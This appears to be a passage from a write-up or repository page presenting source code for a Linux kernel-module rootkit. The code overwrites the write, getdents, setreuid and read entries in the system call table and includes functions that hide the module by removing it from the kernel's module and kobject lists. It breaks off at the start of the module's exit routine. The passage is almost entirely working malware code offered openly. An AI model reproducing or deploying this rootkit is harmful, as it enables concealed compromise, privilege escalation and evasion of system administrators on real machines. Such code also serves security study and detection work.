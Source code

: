     	// Overwrite manipulated system calls
    	sys_call_table[__NR_write] = (unsigned long) my_write;
    	sys_call_table[__NR_getdents] = (unsigned long) my_getdents;
    	sys_call_table[__NR_setreuid] = (unsigned long) my_setreuid;
    	sys_call_table[__NR_read] = (unsigned long) my_read;
    	
    	if(init_HJ_proc() == false)
    		rm_HJ_proc();
    
    	//Changing the control bit back
    	PROT_ENABLE;
    	
    	/*
    	// This feature seems unstable now!
    	// The first insmod is fine, but when rmmod and insmod again.. :(
    	hiding_module();
    	unhiding_module();
    	*/
    
    	return 0;
    }


c. [S3] Hiding/Unhiding the module

    
    void
    hiding_module(void) {
    	// Save the addr of this module to restore if necessary
    	saved_mod_list_head = THIS_MODULE->list.prev;
    	saved_kobj_parent = THIS_MODULE->mkobj.kobj.parent;
    	
    	// Remove this module from the module list and kobject list
    	list_del(&THIS_MODULE->list);
    	kobject_del(&THIS_MODULE->mkobj.kobj);
    	
    	// Remove the symbol and string tables for kallsyms
    	// IF NOT SET TO NULL, IT WILL GET THE FOLLOWING ERROR MSG:
    	// "sysfs group ffff8800260e4000 not found for kobject 'rt'"
    	THIS_MODULE->sect_attrs = NULL;
    	THIS_MODULE->notes_attrs = NULL;
    }
    
    void
    unhiding_module(void) {
    	int r;
    	
    	// Restore this module to the module list and kobject list
    	list_add(&THIS_MODULE->list, saved_mod_list_head);
    	if ((r = kobject_add(&THIS_MODULE->mkobj.kobj, saved_kobj_parent, "rt")) < 0)
    		printk(KERN_ALERT "Error to restore kobject to the list back!!\n");
    }


d. [S4] Restoring to original system calls

    
    static void 
    __exit exit_mod(void){
    